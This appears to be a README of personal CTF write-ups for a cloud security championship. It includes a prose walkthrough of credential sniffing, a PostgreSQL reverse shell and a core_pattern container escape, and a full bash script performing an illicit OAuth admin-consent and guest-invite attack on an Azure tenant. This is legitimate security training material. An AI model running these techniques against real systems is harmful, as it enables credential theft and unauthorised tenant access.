 # Introduction
- https://www.cloudsecuritychampionship.com/
- every month, 1 challenge released, starting from June 2025
- challenges will cover various topics in cloud security
- Until now (August 2025), I managed to solve 2 challenges.
- I will update this README.md file with writeups for each challenge as I solve them.
- Challenges list:
  - June 2025: [Challenge 1](https://www.cloudsecuritychampionship.com/challenge/1)
  - July 2025: [Challenge 2](https://www.cloudsecuritychampionship.com/challenge/2)

# CTF Writeup
## Challenge 1
### Description
#### Perimeter Leak
After weeks of exploits and privilege escalation you've gained access to what you hope is the final server that you can then use to extract out the secret flag from an S3 bucket.
It won't be easy though. The target uses an AWS data perimeter to restrict access to the bucket contents.
Good luck!

### Writeup
- too ez, solve yourself :)

## Challenge 2
### Description
#### Contain Me If You Can
You've found yourself in a containerized environment.
To get the flag, you must move laterally and escape your container. Can you do it?
The flag is placed at /flag on the host's file system.
Good luck!

#### Hints:
- Can you spot any interesting established network connections?
- This network connection is plain-text. Can you think of a way to take advantage of it?
- `COPY ... FROM PROGRAM` can be used to execute arbitrary code in PostgreSQL.
- The PostgreSQL administrator of this environment needed a really easy and convenient way to become root for maintenance purposes.
- The `core_pattern` file in procfs is often used to perform a container escape.

### Writeup
- This one is hard for me, about lateral movement and container escape.
- The hints are very helpful, show us the path to solve the challenge.
- Briefly step-by-step:
  1. Use `netstat` to find established connections, found a connection to a PostgreSQL database.
  2. Use `tcpdump` to capture the traffic, found that the connection is plain-text.
  3. Key point here is to capture the credentials from the traffic. The connection is established whenever the container starts, actually you can not use `tcpdump` faster than the connection established. So we need a trick here:
  4. Use `tcpkill` to kill the connection, while listening to the traffic with `tcpdump`. This way, the container will try to re-establish the connection and when it doing that, the credential will be exchanged between 2 host => we can capture the credentials.
  5. Use the captured credentials to connect to the PostgreSQL database.
  6. Use the `COPY ... FROM PROGRAM` command to execute arbitrary code, I used it to connect to my reverse shell.
  7. Follow the instructions in these articles to escape the container:
       - https://kubehound.io/reference/attacks/CE_UMH_CORE_PATTERN/ (most important)
       - https://pwning.systems/posts/escaping-containers-for-fun/
  8. Finally, I got the flag from the host's file system.
![img](./image.png)
## Challenge 3
### Description
#### Breaking The Barriers
As an APT group targeting Azure, you've discovered a web app that creates admin users, but they are heavily restricted. To gain initial access, you've created a malicious OAuth app in your tenant and now seek to deploy it into the victim's tenant. Can you bypass the restrictions and capture the flag?

The shell environment has been preloaded with your malicious OAuth app credentials and the target web app endpoint as environment variables. Use 'env | grep AZURE' or 'echo $WEB_APP_ENDPOINT' to view them.

#### Hint
- Look into illicit admin consent as an initial access vector.
- To join the party, you'll need to dress your identity just right.
- Groups open doors. This one opens an app - if you know where to look.

#### Writeup
```bash
#!/usr/bin/env bash
set -euo pipefail

# Victim tenant ID (from domain azurectfchallengegame.com via https://www.whatismytenantid.com/)
VICTIM_TENANT="d26f353d-c564-48e7-b26f-aa48c6eecd58"

# Environment variables from challenge terminal
AZURE_CLIENT_ID="abc"
AZURE_CLIENT_SECRET="abc"
WEB_APP_ENDPOINT="https://example.com/"

# Use env vars as defaults if not set
CLIENT_ID="${AZURE_CLIENT_ID:-}"
CLIENT_SECRET="${AZURE_CLIENT_SECRET:-}"
WEB_APP="${WEB_APP_ENDPOINT:-}"

# Check required variables
if [[ -z "$CLIENT_ID" || -z "$CLIENT_SECRET" || -z "$WEB_APP" ]]; then
  echo "Missing required env vars. Make sure AZURE_CLIENT_ID, AZURE_CLIENT_SECRET, WEB_APP_ENDPOINT are set."
  exit 1
fi

echo "Victim tenant: $VICTIM_TENANT"
echo "Web app endpoint: $WEB_APP"
echo

# Step 1: Admin consent
echo "[1] (manual) Open this admin-consent URL in a browser and approve as restricted admin of victim tenant:"
echo "https://login.microsoftonline.com/$VICTIM_TENANT/adminconsent?client_id=$CLIENT_ID"
read -p "Press ENTER after admin consent granted (or Ctrl-C to abort)..."

# Step 2: Login as service principal
echo "[2] Logging in as service principal into victim tenant..."
az login --service-principal --username "$CLIENT_ID" --password "$CLIENT_SECRET" --tenant "$VICTIM_TENANT" --allow-no-subscriptions >/dev/null 2>&1

# Step 3: Get Graph access token
echo "[3] Retrieving Graph access token..."
ACCESS_TOKEN=$(az account get-access-token --resource https://graph.microsoft.com --query accessToken -o tsv)
if [[ -z "$ACCESS_TOKEN" ]]; then
  echo "Failed to get access token"
  exit 1
fi
echo "Token acquired."

# Step 4: List groups
echo "[4] Listing groups (top-level)..."
curl -s -H "Authorization: Bearer $ACCESS_TOKEN" "https://graph.microsoft.com/v1.0/groups"
echo

# Step 5: Invite guest
echo "[5] Invite a guest whose displayName starts with 'CTF' (you must control the email to redeem invitation)."
read -p "Enter a temporary email you control (e.g. ctf123@nullsto.edu.pl): " TEMPEMAIL
read -p "Confirm invite $TEMPEMAIL with displayName 'CTF'? (y/N): " CONF
if [[ "$CONF" != "y" && "$CONF" != "Y" ]]; then
  echo "Aborted invite."
  exit 0
fi

INV_JSON=$(mktemp)
trap 'rm -f "$INV_JSON"' EXIT
cat > "$INV_JSON" <<EOF
{
  "invitedUserEmailAddress": "$TEMPEMAIL",
  "inviteRedirectUrl": "$WEB_APP",
  "invitedUserDisplayName": "CTF",
  "sendInvitationMessage": true
}
EOF

INV_RESPONSE=$(curl -s -X POST "https://graph.microsoft.com/v1.0/invitations" \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Content-Type: application/json" \
  -d @"$INV_JSON")

echo "$INV_RESPONSE"
if [[ "$INV_RESPONSE" == *"error"* ]]; then
  echo "Invitation failed."
  exit 1
fi
echo "Invitation created. Redeem it from the target email to activate the guest account."

# Step 6: Redeem invitation
echo "[6] (manual) Redeem the invitation in your email."
read -p "Press ENTER after redeeming the invitation (or Ctrl-C to abort)..."

# Step 7: Logout and login as guest
echo "[7] Logging out from service principal session..."
az logout >/dev/null 2>&1

echo "[8] Logging in as guest into victim tenant..."
echo "To sign in, open https://microsoft.com/devicelogin in a browser and enter the code provided by the CLI."
az login --tenant "$VICTIM_TENANT" --use-device-code

# Step 9: Download flag
echo "[9] Downloading the flag..."
az storage blob download \
  --account-name azurechallengectfflag \
  --container-name grab-the-flag \
  --name ctf_flag.txt \
  --file "ctf_flag.txt" \
  --auth-mode login

if [[ $? -ne 0 ]]; then
  echo "Failed to download flag."
  exit 1
fi

# Step 10: View flag
echo "[10] Viewing the flag..."
cat ctf_flag.txt
```
